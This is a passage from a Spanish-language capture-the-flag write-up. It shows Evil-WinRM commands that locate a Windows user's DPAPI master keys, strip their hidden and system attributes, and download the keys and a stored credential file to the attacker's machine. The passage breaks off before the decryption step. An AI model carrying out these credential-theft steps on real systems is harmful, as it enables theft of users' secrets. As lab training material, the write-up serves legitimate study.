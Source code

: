 ### Finding DPAPI Master Key

Para desencriptar este archivo de credencial, necesitamos ubicar la clave maestra, la podremos encontrar en el siguiente directorio

~~~ bash
*Evil-WinRM* PS C:\Users\C.Neri\Documents> cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> dir -Force 


    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-          6/7/2024   1:17 PM             24 Preferred
~~~

Descargamos las `Master Keys` y probaremos usando ambas para desencriptar el archivo de credenciales. 

>Necesitaremos hacer un pequeño tratamiento con `powershell` para quitar los atributos `hidden` y `system`, lo que nos dará conflictos a la hora de intentar descargarlos con `evil-winrm`
{: .notice--danger}

Finalmente la clave maestra que necesitamos será `99cf41a3-a552-4cf7-a8d7-aca2d6f7339b`

~~~ bash
*Evil-WinRM* PS C:\Users\C.Neri\Documents> attrib -h -s C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

*Evil-WinRM* PS C:\Users\C.Neri\Documents> attrib -h -s C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6
~~~

Ahora que quitamos los atributos que nos impiden descargar los archivos, procederemos a descargarlos en nuestra máquina atacante usando el comando `download`

~~~
*Evil-WinRM* PS C:\Users\C.Neri\Documents> download C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6

*Evil-WinRM* PS C:\Users\C.Neri\Documents> download C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
~~~

### Decrypting DPAPI Master Key

Necesitamos el SID del usuario actual, lo podemos obtener desde `BloodHound`
 o ejecutando lo siguiente 
